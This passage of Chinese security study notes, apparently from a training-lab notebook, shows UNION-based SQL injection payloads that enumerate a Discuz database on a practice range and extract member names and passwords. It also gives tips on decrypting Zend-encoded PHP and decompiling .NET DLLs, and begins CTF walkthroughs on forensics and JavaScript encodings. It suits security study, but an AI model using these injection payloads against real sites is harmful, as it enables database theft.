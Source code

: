 ```plain
得到数据库后，查询数据库的表：
1 and 1=2 union select 1,TABLE_NAME,3,4 from information_schema.TABLES where TABLE_SCHEMA='mozhe_Discuz_StormGroup' limit 0,1_mozhe
经过加密，注入得到：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113179145-091a3d6e-5cfe-48e4-b6fd-61b9a386cda6.png)

```plain
获取字段：
1 and 1=2 union select 1,COLUMN_NAME,COLUMN_TYPE,4 from information_schema.COLUMNS where TABLE_SCHEMA='mozhe_Discuz_StormGroup' and TABLE_NAME='StormGroup_member' limit 1,1_mozhe
获取数值：
1 and 1=2 union select 1,CONCAT(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1_mozhe
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113179210-c88682d5-f3e2-48e1-bb8d-d1eb2de57022.png)

- 代码-解密-解密反编译-Zend&Dll&Jar

```plain
Zend:通达OA的index.php是加密的代码，以Zend为开头的代码。解密平台：http://dezend.qiling.org/free.html,将代码上传至平台。这样就可以进行解密，解密要看是否复杂，能不能解密。

Dll:.net是基于Windows开发的一款脚本语言，那么后缀封装成为dll程序，利用到ILSpy工具进行解密，类似于反编译。
```

- CTF赛题-buuoj-single dog-JS颜文字

```plain
Wp:https://blog.csdn.net/qq_53030229/article/details/121254834
kali安装下foremost命令：sudo apt-get update   sudo apt-get install foremost  下载完成后，执行foremost命令：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113179306-3be688b1-806c-4479-a43c-34942da1c191.png)

解压发现两个文件：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113179317-33dadfef-a646-4b92-8542-809d160aa2db.png)

发现1.txt内容：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113179649-69c6a6c2-3c2a-430c-bbf9-1204059d439a.png)

```plain
复制内容，到http://www.hiencode.com/aaencode.html
解密结果：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721113179697-19d1949f-e5a1-4f23-820a-ce854b546d5c.png)

- CTF赛题-xuenixiang-Jsfuck-JSFUCK

下载附件，打开查看源代码：
